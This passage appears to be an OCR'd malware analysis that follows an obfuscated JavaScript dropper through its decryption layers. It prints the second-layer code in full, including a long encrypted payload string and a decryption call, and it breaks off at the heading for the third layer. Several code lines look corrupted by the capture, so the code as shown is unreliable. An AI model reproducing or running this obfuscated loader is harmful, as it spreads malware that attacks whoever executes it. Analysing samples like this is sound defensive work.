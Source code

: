 ndplk is actually an encrypted script. It is decrypted by the meeth0 (a pointer to meeth0 is saved in the variable flower7) function and is saved in the 
variable txeic. The result is the layer 2 code.

## Second Layer
```js
constructor,ubwojcfaywmnbpcig=7327;
o=49-46;
irjdtod=392;
try{ 
 txeic[o](flower7('31()F][(DFC(c3T3i) )=; CVrEizrSTmExg; )=) 5i2T(cFC(D][)F1(33(1F)[]D(CFc(T1i5 )=) ;FfzuXnIcJtZi;otnp iprWcdSxW( n=e CDECmcqT)i{;r)e1teunrond +Mwattchu[dFo(r1p1+)u]m(oMva+t5he[nFo(t3+9n)n]i(k)s*+n4elClEam+qn)y;k}dC+rrirrhTiEeg+[iFo(o1y4g)+]m(e)r;aHhbsS+UfFh t=r aCer+i0reTlEbga[tF+(7360t)h]g(i\"r\\+\\e\"e)s;otorhyc{+NnLnCiVabtNn o=c +HpbqSrUeFh[+Fh(k2m0s)f]k(tS+siyhOase)x;g}hc+attrcehd(nauz+p6qmIipa)l{cN+L8CtVabeNr g=+ 5f3aellsbea;+}pikfh i(lN+LwCdVlbuNo h=s=+ 7flaelwsoev)+ m{wPizdxtwr +=v jxnmaSszeEgV+[hFh(x3y0l)+]4(dZoJoIlXbz+Fj[oFw(t2+6n)q]w(wF+(s3y7a)s)u)+[1Fq(n2o4s)a]e;rp+e3gtXnOito p=+ 62t8s4o-p(+Mdaptdhz[+F0(k4c1u)r]t(+2l8d4n/iPmz+xkwt[rFo(j4+)g]h)g*uPazlx+wu[vFb(c4a)k]+)r;kfghswfi+Pv m=n u0f;+L5IrIeevXe +=i ifcahl+stez;pfto+r5(mqoYtday+U7 d=n anleswi +Exnruemhetroartbo+r8(tPozhx+wi)d;m w!cqtY+ddyiUq[dFj(+2g9l)t]t(x)+;a eqlYbdaybUo[rFp(+4n3n)r]w(m)y)+ w{blzCpsmHmrpt+ 5=e cqnYadtysUb[uFs(+4r5w)o]c(+)3;1itfc e(spneig+XxOxtz=h=+f3hdwlioPg)+ 5LaI+IdesXd b=i +lhClsaHwrdta;df+h1wlilPa+w++;z}nikfl i(+LuIwIpexXx x!+=3 tfoaplss+e3)4 k{eOeQwh+wsAd x=r +LkIvIcewXi+u\"r\\x\\a\"++0oyctBiEcm+;ridfr(w!txfm+SdzsEmVj[hF+(22k2g)l]l(oOrQ+h2whAc)t)e{rutCsA+wvaebmsa c=+ dxdmrSazoEbV+[hFy(w3s5t)+]1(eOrQehww+A0,e r8a,+ ntlraunei)g;iurCoA+wuahbfse[bFy(+410t)h]g(iPeg+pkftQn)a;tdsricdX(I7=r\"e\"w;oflhfw i=P =Q0f;plgsPV;x)W6Z(uF= 0=; PulpmtbxI; )=1 2p(WFd x=( 5m6E0B)c+o1;0)490(9F; k=W NsbOey s=S }F;(v2j)O[PFv(V4 2n)r]u(t\'e\'r)};;r)R1t,o0 (=r tMsabtuhs[.Fv(j3O9P)v]V;+L)Z1B(qrutus b=u sM.avtjhO[PFv(V1 1=) ]v;jwOhPivlVe{( t)r+u+eE)Z q{ZdfrNcbXDI ;+I=V DkqWyNibHe [=L<Z BEqZuquZ(frNRbtDo (;)0* 2=5 )E]Z;qiZff N(blDs VrxaWvZ(u =r=oPfl;m]bIIV)D q{ylisHV[xyWnZouq= 0=; PvljmObPIv V=; )p\"W|d\"x((t5i6l0p)s+.1F0R4E0T9q; u=C Aywnaobqs;[\"Ft(i4m0e)|]T(wderNckXsIa+|\"e;v\"o)m;tdxrecNX|Ip=s\"t\"i;l}|fohlwfirPo+|+t;ilrsWVex|WaZrum+o+d;ni|fC e(sfohlw|iTPA=D=P4P6A9%9%2A3|8l1b)a lbiraevaAkn;e}huWCtArwaatbSse[|Fe(l3i8F)t]x(e)T;nueCpAOw|anbesm a=| txsmySSzeElVi[FF.(g1n3i)t]p(iOrQchSwtAc)e;jubCOAmwea|bess[UFd(I3r4|)a]e r=C txctepjub;OheQtC|To F=t euGCrAewdalb|sd[nFE(t2a8|)a]N;trrToihjSQezms|ad I=r eCgrgiirrTTEngo[gFo(L4|4i)r]t(S0t)n;ermTniojrQizvsnaE[dFn(a1p0x)E]s[gFn(|3l6l)e]h S=. ttpriurec;SrWT|iojFQbzusSas[rFe(d1l0|)i]t[iFn(i1f7e)D]k s=a Tfraeltssei;gwerRjnjoj|sijx E=e lriTFisjtQsz|stat[eFS(g8o)l].[sFe(c1n)e]r(e9f)n;owCr jtjnjesmje[l\"|IkDs\"a]T t=e GF|(A2s7n)o;iwtrcj|jEjSsUj%[%FE(M3A2N)R]E S=U %Z\\J\\I%XNzIFA[MFO(D2R6|)n]e(dFd(i1H8|)r)o;tWcPeareiRDRg n=i krrToiWjyQ|zescai[vFr(e1S9.)e]l[uFd(e1h)c]S(|0c)e;nWnPoaCetR|Re[lFi(F5t)e]G |=u RFx(E7n)|;uWoPradenR|Ri[tFt(e3s)s]g n=| ihtQaCRT ;MWBPIaselRoRo[TF (l1a6n)o]| r=e gLgIiIretXs;|HpbiSrUcFs[wFt(|2l3a)n]A( SesryaOhsS, treTkirjaQMzssja.,s i6s,y |\"a\"P h,t |\"t\"n u,o C3|)m;uNgLrCAVsbtNn e=| wHvbuStUsFr[qFp(o2n0m)l]k(jSishygOfse)d;cNbLaCzVybxN|[aFe(r1C2e)t]|(inuuQltl\", =2 ,F R0E,T q\"{\"))I;V}D}q}yiiTHc(CFD [nFo(i0t)c]n(u)f;')
 )();
} catch(e) { }
psudexudc=txeic;,,qqxhouk()
```

txeic is as an array and delmited by commas. So txeic[3] is qqxhouk() and txeic[1] is the main body of decrypted ndplk variable. Another encrypted string is 
contained in the main body and goes through another round of decryption by meeth0 (remember that flower7 now is a pointer to meeth0). The decrypted 
content is yet another script, which is the third layer.

## Third Layer
